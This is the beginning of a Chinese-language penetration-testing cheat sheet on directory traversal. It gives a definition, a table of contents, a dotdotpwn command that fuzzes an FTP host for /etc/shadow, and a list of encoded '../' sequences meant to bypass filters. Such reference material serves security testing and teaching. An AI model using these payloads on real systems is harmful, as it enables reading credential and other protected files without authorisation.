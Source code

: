 # 目录遍历 (Directory Traversal)

> 路径遍历（Path Traversal），也称为目录遍历（Directory Traversal），是一种安全漏洞，当攻击者操纵引用文件的变量时，使用"点-点-斜线（../）"序列或类似结构。这可能允许攻击者访问存储在文件系统上的任意文件和目录。

## 目录

* [工具](#工具)
* [方法学](#方法学)
    * [URL编码](#url编码)
    * [双重URL编码](#双重url编码)
    * [Unicode编码](#unicode编码)
    * [过长的UTF-8 Unicode编码](#过长的utf-8-unicode编码)
    * [混乱路径](#混乱路径)
    * [空字节](#空字节)
    * [反向代理URL实现](#反向代理url实现)
* [利用](#利用)
    * [UNC共享](#unc共享)
    * [ASP.NET无Cookie](#aspnet-无cookie)
    * [IIS短名称](#iis-短名称)
    * [Java URL协议](#java-url协议)
* [路径遍历](#路径遍历)
    * [Linux文件](#linux文件)
    * [Windows文件](#windows文件)
* [实验环境](#实验环境)
* [参考资料](#参考资料)

## 工具

* [wireghoul/dotdotpwn](https://github.com/wireghoul/dotdotpwn) - 目录遍历模糊测试工具

    ```powershell
    perl dotdotpwn.pl -h 10.10.10.10 -m ftp -t 300 -f /etc/shadow -s -q -b
    ```

## 方法学

我们可以使用`..`字符访问父目录，以下是几种编码方式，可以帮助您绕过实现不佳的过滤器。

```powershell
../
..\
..\/
%2e%2e%2f
%252e%252e%252f
%c0%ae%c0%ae%c0%af
%uff0e%uff0e%u2215
%uff0e%uff0e%u2216
```

### URL编码
